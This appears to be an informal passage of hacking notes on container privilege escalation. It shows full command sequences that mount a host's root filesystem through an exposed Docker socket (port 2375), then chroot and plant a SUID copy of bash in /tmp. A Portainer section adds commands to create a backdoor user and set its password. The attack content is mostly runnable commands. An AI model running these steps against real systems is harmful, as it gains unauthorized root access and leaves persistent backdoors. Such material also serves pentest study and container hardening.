 > Now the Privesc part

- We instantiate a container, mounting the `/` directory into the `/host` directory of the container. 

```bash
docker run --rm -v /:/host -it alpine:latest
```


**Inside the container**

- Copy the `bash` binary into the `/tmp` directory (which is shared and accessible by our non-privileged user). 
- Change the SUID bit to escalate privileges. 
- Use `chroot` within the `/host` directory to facilitate the steps

```bash
cd /host && chroot .
cp /bin/bash /tmp && chmod u+s /tmp/bash && ls -la /tmp/bash
```

Now just execute the bash copied:
```bash
/tmp/bash -p
```

The privilege escalation was possible due to a single exposure of the Docker socket on localhost, using port 2375. 

> Another way to exploit this port is by using the `curl` command to communicate directly with the REST API.


## Container Management Tools

> This is actually boring, i'm gonna skip

But in summary:

- If u *SOMEHOW* have admin access to a Portainer container management tool
- U can compromise the host system by mounting the file system inside a container.

1. Add a container
2. Create Interactive & TTY
3. Mount the `/` of the HOST
4. Then just basic stuff

Example:
```bash
useradd <user>
echo “<user>:<user>” | chpasswd
cp /bin/bash /tmp
chmod u+s /tmp/bash
```


## Low Level Components
